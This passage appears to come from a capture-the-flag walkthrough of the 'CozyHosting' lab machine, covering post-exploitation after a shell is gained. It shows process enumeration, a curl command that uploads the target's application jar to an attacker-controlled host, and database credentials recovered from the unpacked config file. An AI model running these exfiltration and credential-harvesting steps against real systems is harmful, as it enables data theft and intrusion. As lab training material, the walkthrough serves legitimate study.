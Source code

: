 ```python
print( response.status_code )
print( response.headers )
```

From now we have a shell, we can enumerate the target host.
## Post-Exploitation

### Host Reconnaissance

We can list running processes :

```shell
ps -efH
```

This reveals a PostgreSQL service :

```text
postgres 1097 1 0 Sep27 ? 00:00:05 /usr/lib/postgresql/14/bin/postgres -D /var/lib/postgresql/14/main -c config_file=/etc/postgresql/14/main/postgresql.conf
```

In `/home` folder, there is only one user : `josh`

The jar file of the application is also available, so we can download it for analysis :

on our host :

```shell
updog --port 9090
```

On target host, upload the jar file :

```shell
curl -X POST -F 'file=@/app/cloudhosting-0.0.1.jar;filename=cloudhosting-0.0.1.jar' -F 'path=.' http://10.10.14.23:9090/upload
```

On our host, we can start by extracting jar content :

```shell
unzip cloudhosting-0.0.1.jar
```

in file BOOT-INF\classes\application.properties :

```text
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
